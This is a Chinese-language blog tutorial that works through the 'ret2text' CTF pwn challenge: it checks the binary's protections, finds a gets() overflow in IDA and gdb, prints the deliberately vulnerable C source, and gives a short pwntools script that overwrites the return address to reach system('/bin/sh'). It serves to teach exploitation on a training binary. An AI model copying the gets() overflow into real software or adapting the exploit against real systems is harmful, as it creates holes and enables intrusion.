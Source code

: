 ```yaml
---

layout:     post
title:      ret2text
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




本文讲解栈溢出中，最简单的利用

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2text)



第一步

利用pwntools的checksec查看elf文件的保护措施

```
#checksec ret2text

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



第二步

利用file命令，查看文件信息

```
file ret2text

ret2text: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
```



第三步

ida分析程序，双击左边的main函数，然后按F5，出现伪C代码

![image-20180911153947593](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074400.jpg)



简单分析，能够发现第九行gets函数存在溢出，

![image-20180911154339254](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074405.png)



buf的长度为0x64=100，如果gets函数接收到的数据长度大于100，肯定会覆盖buf外的数据

![image-20180911154833684](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-075031.png)



第四步

定位覆盖函数返回地址的位置

cyclic 200

![image-20180911160406996](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080411.png)



gdb -q ret2text，run命令运行程序，然后把cyclic生成的字符串输入

![image-20180911160327983](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080333.png)

观察eip寄存器的值，变成了0x62616164，main函数返回地址被覆盖为0x62616164



cyclic -l 0x62616164

![image-20180911160531664](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081819.png)



第五步

确定函数的ret返回地址

![image-20180911160642678](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081739.png)



双击system函数

![image-20180911160718703](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081743.png)



选中system函数，按x快捷键

![image-20180911160739851](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081747.png)



进入程序调用system函数的代码区，我们发现程序直接执行了system('/bin/sh')

![image-20180911160820091](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081758.png)



我们让main函数的ret地址返回到这里执行system('/bin/sh')

按一下tab键

![image-20180911161021606](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081755.png)

确定system('/bin/sh')的汇编代码的地址为 0x0804863A，0x08048641是call system函数，但是调用函数之前需要传递参数，0x0804863A是传递参数的过程，两句汇编代码结合起来就是system('/bin/sh')这句c代码

```c
ret2text.c

#include <stdio.h>
#include <stdlib.h>
#include <time.h>

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("/bin/sh");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("There is something amazing here, do you know anything?\n");
    gets(buf);
    printf("Maybe I will tell you next time !");

    return 0;
}
```





exp脚本：

```
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2text')

system_addr = 0x804863A
sh.sendline('a'*112 + p32(system_addr))

sh.interactive()
```

